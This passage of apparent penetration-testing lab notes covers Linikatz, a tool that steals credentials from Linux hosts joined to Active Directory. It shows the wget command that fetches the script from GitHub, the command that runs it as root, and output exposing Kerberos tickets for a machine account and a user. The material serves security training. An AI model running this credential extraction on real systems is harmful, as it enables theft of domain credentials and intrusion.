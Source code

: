 ```powershell
 Directory of \\dc01\julio

07/14/2022  07:25 AM    <DIR>          .
07/14/2022  07:25 AM    <DIR>          ..
07/14/2022  04:18 PM                17 julio.txt
               1 File(s)             17 bytes
               2 Dir(s)  18,161,782,784 bytes free
```

## Linikatz
* [Linikatz](https://github.com/CiscoCXSecurity/linikatz) is a tool created by Cisco's security team for exploiting credentials on Linux machines when there is an integration with Active Directory
* Linikatz brings a similar principle to `Mimikatz` to UNIX environments
* We need to be root on the machine
* Tool will extract all credentials, including Kerberos tickets, from different Kerberos implementations such as FreeIPA, SSSD, Samba, Vintella, etc
	* Places them in a folder whose name starts with `linikatz.`

#### Linikatz Download and Execution

```sh
wget https://raw.githubusercontent.com/CiscoCXSecurity/linikatz/master/linikatz.sh

/opt/linikatz.sh

 (_)_ __ (_) | ____ _| |_ ____
| | | '_ \| | |/ / _` | __|_  /
| | | | | | |   < (_| | |_ / /
|_|_|_| |_|_|_|\_\__,_|\__/___|

             =[ @timb_machine ]=

I: [freeipa-check] FreeIPA AD configuration
-rw-r--r-- 1 root root 959 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Vendor-Firmware-Service
-rw-r--r-- 1 root root 2169 Mar  4  2020 /etc/pki/fwupd/GPG-KEY-Linux-Foundation-Firmware
-rw-r--r-- 1 root root 1702 Mar  4  2020 /etc/pki/
<SNIP>
Default principal: LINUX01$@INLANEFREIGHT.HTB

Valid starting       Expires              Service principal
10/10/2022 19:48:03  10/11/2022 05:48:03  krbtgt/INLANEFREIGHT.HTB@INLANEFREIGHT.HTB
    renew until 10/11/2022 19:48:03, Flags: RIA
    Etype (skey, tkt): aes256-cts-hmac-sha1-96, aes256-cts-hmac-sha1-96 , AD types: 
I: [kerberos-check] User Kerberos tickets
Ticket cache: FILE:/tmp/krb5cc_647401106_HRJDux
Default principal: julio@INLANEFREIGHT.HTB
<SNIP>
```

